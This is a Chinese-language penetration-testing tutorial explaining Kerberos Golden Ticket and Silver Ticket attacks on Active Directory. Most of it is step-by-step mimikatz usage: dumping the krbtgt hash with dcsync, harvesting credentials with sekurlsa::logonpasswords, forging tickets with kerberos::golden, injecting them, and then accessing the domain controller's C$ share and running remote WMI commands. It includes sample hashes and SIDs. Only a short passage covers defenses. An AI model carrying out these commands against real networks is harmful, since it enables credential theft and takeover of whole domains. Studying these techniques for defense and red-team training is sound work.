浅析黄金票据与白银票据
前言
票据传递攻击（PtT）是一种使用Kerberos票据代替明文密码或NTLM哈希的方法。PtT最常见的用途可能是使用黄金票据和白银票据，通过PtT访问主机相当简单。
概念
我们首先需要学习关于kerberos认证
- KDC(Key Distribution Center)： 密钥分发中心，里面包含两个服务：AS和TGS
- AS(Authentication Server)： 身份认证服务
- TGS(Ticket Granting Server)： 票据授予服务
- TGT(Ticket Granting Ticket): 由身份认证服务授予的票据，用于身份认证，存储在内存，默认有效期为10小时
- Pass The Ticket： 如果我们能够拿到用户的TGT，并将其导入到内存，就可以冒充该用户获得其访问权限
(金票)GoldenTicket
简介
Golden Ticket（下面称为金票）是通过伪造的TGT（TicketGranting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的ST。可以说有了金票就有了域内的最高权限。
每个用户的Ticket都是由krbtgt的密码Hash来生成的，那么，我们如果拿到了krbtgt的密码Hash，其实就可以伪造任意用户的TICKET,
对于攻击者来说，实际上只要拿到了域控权限，就可以直接导出krbtgt的Hash值，，再通过mimikatz即可生成任意用户任何权限的Ticket，也就是Golden Ticket。

黄金票据特点
- 域控制器中的KDC服务不验证TGT中的用户帐户，直到TGT超过20分钟，这意味着攻击者可以使用禁用和删除的帐户，甚至是在Active Directory中不存在的虚拟帐户。
- 由于在域控制器上由KDC服务生成的域设置了Kerberos策略，如果提供票据，则系统信任票据的有效性。这意味着，即使域策略声明Kerberos登录票据（TGT）只有10小时有效，如果票据声明有效期为10 年，那么也会信任票据的有效性期为10年。
- 该KRBTGT帐户密码从不更改*和直到KRBTGT密码被更改（两次），攻击者可以创建黄金票据。请注意，即使伪造用户更改其密码，创建用于模拟用户的Golden Ticket仍然存在。
- 它绕过了SmartCard身份验证要求，因为它绕过了DC在创建TGT之前执行的常规验证。
- .这个精心创建的TGT要求攻击者拥有Active Directory域的KRBTGT密码哈希值（通常从域控制器转储）。
- KRBTGT NTLM哈希可用于生成一个有效的TGT（使用RC4）模拟任何用户访问Active Directory中的任何资源。
- 在主机上都可以生成和使用黄金票据（TGT），即使没有加入域也是如此。只要网络可以访问域。
- 用于从AD森林中的DC获取有效的TGS票据，并提供一个坚持在一切域访问所有的主机的好办法。
制作金票的条件：
1 | 1、域名称 |
实战中，通常使用Mimikatz来提取krbtgt的NTLM-Hash。
1.获取域名称
1 | net view /domain |
2.Mimikatz获取krbtgt的HTLM-Hash及域SID
1 | mimikatz "lsadump::dcsync /domain:test666.com /user:krbtgt" |
3..Mimikatz生成黄金票据
1 | mimikatz "kerberos::golden /domain:test666.com /sid:S-1-5-21-1497092113-2272191533-193330055 /krbtgt:cac9c793eb3ba2c6abbcc9c14f18a41f /user:test666 /ticket:golden.kirbi" |
利用步骤:
1.导出krbtgt的Hash
金票的生成需要用到krbtgt的密码HASH值，可以通过mimikatz中的
1 | lsadump::dcsync /OWA2010SP3.0day.org /user:krbtgt |
命令获取krbtgt的值。

2.生成Golden Ticket
得到KRBTGT HASH之后使用mimikatz中的kerberos::golden功能生成金票golden.kiribi，即为伪造成功的TGT。
参数说明：
1 | /admin：伪造的用户名 |
1 | kerberos::golden /admin:administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:golden.kiribi |

3. 导入伪造Golden Ticket获得域控权限
通过mimikatz中的kerberos::ptt功能（Pass The Ticket）将golden.kiribi导入内存中。
1 | kerberos::purge |

此时就可以通过dir成功访问域控的共享文件夹。
1 | dir \\OWA2010SP3.0day.org\c$ |

TIPS:
生成Golden Ticket不仅可以使用aes256，也可用krbtgt的NTLM hash
可以用mimikatz “lsadump::lsa /patch”导出:

注意
- 这种方式导入的Ticket默认在20分钟以内生效，如果过期了，再次ptt导入Golden Ticket即可。
- 可以伪造任意用户，即使其不存在。
- krbtgt的NTLM hash不会轻易改变，即使修改域控管理员密码。
黄金票据防御
- 限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机（不要让其他管理员登录到这些服务器）将所有其他权限委派给自定义管理员组。这大大降低了攻击者访问域控制器的Active Directory的ntds.dit。如果攻击者无法访问AD数据库（ntds.dit文件），则无法获取到KRBTGT帐户密码。
- 禁用KRBTGT帐户，并保存当前的密码以及以前的密码。KRBTGT密码哈希用于在Kerberos票据上签署PAC并对TGT（身份验证票据）进行加密。如果使用不同的密钥（密码）对证书进行签名和加密，则DC（KDC）通过检查KRBTGT以前的密码来验证。
(银票)SilverTickets
简介
Silver Tickets（下面称银票）就是伪造的ST（Service Ticket），因为在TGT已经在PAC里限定了给Client授权的服务（通过SID的值），所以银票只能访问指定服务。
正确的认证流程:

使用了Silver Ticke的认证流程:

白银票据的特点
- .白银票据是一个有效的票据授予服务（TGS）Kerberos票据，因为Kerberos验证服务运行的每台服务器都对服务主体名称的服务帐户进行加密和签名。
- 黄金票据是伪造TGT并且有效的获得任何Kerberos服务，而白银票据是伪造TGS。这意味着白银票据仅限于特定服务器上的任何服务。
- 大多数服务不验证PAC（通过将PAC校验和发送到域控制器进行PAC验证），因此使用服务帐户密码哈希生成的有效TGS可以完全伪造PAC
- 攻击者需要服务帐户密码哈希值
- TGS是伪造的，所以没有和TGT通信，意味着DC从验证过。
- 任何事件日志都在目标服务器上。
制作银票的条件：
1 | 1.域名称 |
白银票据的服务列表
1 | 服务名称 同时需要的服务 |
利用过程
1.获取hash sid等信息
首先我们需要知道服务账户的密码HASH，这里同样拿域控来举例，通过mimikatz查看当前域账号administrator的HASH值。注意，这里使用的不是Administrator账号的HASH，而是OWA2010SP3$的HASH。
1 | mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > 1.txt |
1 | sekurlsa::logonpasswords |

2.伪造白银票据
这时得到了OWA2010SP3$的HASH值，通过mimikatz生成银票。
参数说明：
1 | /domain：当前域名称 |
1 | kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt |

这时通过klist查看当前会话的kerberos票据可以看到生成的票据。

使用dir \\OWA2010SP3.0day.org\c$访问DC的共享文件夹。

各种服务中的示例
| Service Type | Service Silver Tickets |
|---|---|
| WMI | HOST RPCSS |
| PowerShell Remoting | HOST HTTP |
| WinRM | HOST HTTP |
| Scheduled Tasks | HOST |
| Windows File Share (CIFS) | CIFS |
| LDAP operations includingMimikatz DCSync | LDAP |
| Windows Remote Server Administration Tools | RPCSS LDAP CIFS |
Windows共享（CIFS）管理访问的银票
为 “cifs ”服务创建白银票据，以获得目标计算机上任何Windows共享的管理权限。
注入CIFS Silver Ticket后，我们现在可以访问目标计算机上的任何共享，包括
c $共享，我们能够将文件拷贝到共享文件中。
具有管理员权限的Windows计算机（HOST）白银票据
创建银票以获得目标计算机上所涵盖的任何Windows服务的管理员权限。这包括修改和创建计划任务的权限。
Silver Ticket连接到以Windows管理员权限计算机上的PowerShell远程执行
为“ http ”服务和“ wsman ”服务创建Silver Ticket，以获得目标系统上的WinRM和或PowerShell Remoting的管理权限。
注入两张HTTP＆WSMAN白银票据后，我们可以使用PowerShell远程（或WinRM的）反弹出目标系统shell。首先New-PSSession使用PowerShell创建到远程系统的会话的PowerShell cmdlet，然后Enter-PSSession打开远程shell。
白银票据证连接到具有管理员权限Windows计算机上的LDAP
为“ldap”服务创建Silver Ticket 以获得目标系统（包括Active Directory）上LDAP服务的管理权限。
利用LDAP Silver Ticket，我们可以远程访问LDAP服务来获得krbtgt的信息
注：
1 | lsadump::dcsync |
向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户，只读域控制器默认不允许读取用户密码数据。
白银票据证连接到具有管理员权限Windows计算机上的WMI
为“ HOST ”服务和“ rpcss ”服务创建白银票据以使用WMI在目标系统上远程执行命令。
注入这些白银票据之后，我们可以通过运行“klist”来确认Kerberos TGS票据在内存中注入白银票据后，我们可以通过“传票”来调用WMIC或Invoke-WmiMethod在目标系统上运行命令。
1 | Invoke-WmiMethod win32_process -ComputerName $ Computer -Credential $ Creds -name create -argumentlist“$ RunCommand” |
访问域控上“cifs”服务实列
首先需要获得如下信息：
1 | domain |
使用mimikatz执行如下命令导入Silver Ticket
1 | mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:cifs /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:silver /ptt" |
此时可以成功访问域控上的文件共享
关于黄金票据和白银票据的一些区别:
1.访问权限不同
- Golden Ticket: 伪造TGT,可以获取任何Kerberos服务权限
- Silver Ticket: 伪造TGS,只能访问指定的服务
2.加密方式不同
- Golden Ticket 由Kerberos的Hash—> krbtgt加密
- Silver Ticket 由服务器端密码的Hash值—> master key 加密
3.认证流程不同
- Golden Ticket 的利用过程需要访问域控(KDC)
- Silver Ticket 可以直接跳过 KDC 直接访问对应的服务器
参考文章
[https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.html](https://wooyun.js.org/drops/域渗透——Pass The Ticket.html)
http://www.test666.me/archives/264/
https://uknowsec.cn/posts/notes/%E5%9F%9F%E6%B8%97%E9%80%8F-Ticket.html
http://sh1yan.top/2019/06/03/Discussion-on-Silver-Bill-and-Gold-Bill/